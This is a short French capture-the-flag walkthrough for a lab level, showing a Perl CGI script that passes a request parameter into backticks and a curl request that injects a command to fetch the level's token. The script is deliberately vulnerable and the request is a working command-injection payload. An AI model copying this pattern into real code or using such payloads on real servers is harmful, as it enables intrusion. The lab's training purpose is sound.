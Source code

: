 On trouve un script level04.pl

<pre><code>#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));</code></pre>

Après lecture, on voit qu'il s'exécute lorsqu'on effectue une requête sur localhost:4747 et qu'il prend un paramètre.

<pre><code>$ curl 192.168.56.102:4747?x=test
test</code></pre>

Avec "test" comme paramètre, le programme écrit testsur la sortie standard. On peut donc injecter une commande que le script exécutera avec ses droits grâce aux backquotes :

<pre><code>$ curl 192.168.56.102:4747?x=\`getflag\`
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap</code></pre>
